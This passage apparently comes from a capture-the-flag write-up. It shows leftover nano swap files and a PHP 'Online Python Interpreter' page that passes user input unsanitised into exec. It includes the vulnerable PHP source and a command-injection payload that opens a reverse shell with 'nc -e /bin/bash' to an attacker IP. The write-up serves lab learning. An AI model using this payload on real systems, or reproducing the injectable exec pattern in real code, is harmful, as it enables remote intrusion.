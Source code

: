 I’ll demonstrate on target with two terminals. The lower one is running `watch
-d 'ls -la`. In the top one, I’ll `nano 0xdf`, and the swp file is created.
Then I’ll exit, and it goes away. Then I’ll open it again, and this time, I’ll
kill the terminal window, stranding the process. I’ll see the swp file
remains, and it’s the same size as `.sudo.py.swp`. Then I’ll exit the watch
and try to open 0xdf, and see it’s already in use.

![](https://0xdfimages.gitlab.io/img/devlife-swap-nano.gif)

### interpreter.php

I had guessed earlier that the php was using `"` and that’s why I couldn’t do
`print "A"`. Once I got a shell, I decided to take a look at
`interpreter.php`:

    
    
    <html>                               
    <body>       
    <h1> Online Python 2.7 Interpreter </h1>                          
    <h1></h1>                                                         
    <form action="interpreter.php" method="post">
    Python Instruction <input type="text" name="com"><br>                     
    <input type="submit">                                                      
    </form>                                         
    
    <?php                                                                
    $command = '/usr/bin/python -c "%s" ' ;   
    $test =  $_POST["com"] ;                                                    
    $out = sprintf($command, $test) ;                             
    
    $hadi = exec($out);
    echo $hadi ;                                       
    ?>
    

So it is using my input to build a string, and then executing it with system.

So some examples of input:

Input | Result | Comment  
---|---|---  
`print 'a'` | `/usr/bin/python -c "print 'a'"` | Works  
`print "a"` | `/usr/bin/python -c "print "a""` | Doesn’t work. `"`s break.  
`print \"a\"` | `/usr/bin/python -c "print \"a\""` | Works  
  
That’s neat, but there’s also an injection opportunity here. I’ll enter:

    
    
    print 'A'"; nc -e /bin/bash 10.254.1.47 443; python -c "print 'B'
    

The script will create the string:

    
    
    /usr/bin/python -c "print 'A'"; nc -e /bin/bash 10.254.1.47 443; python -c "print 'B'"
    
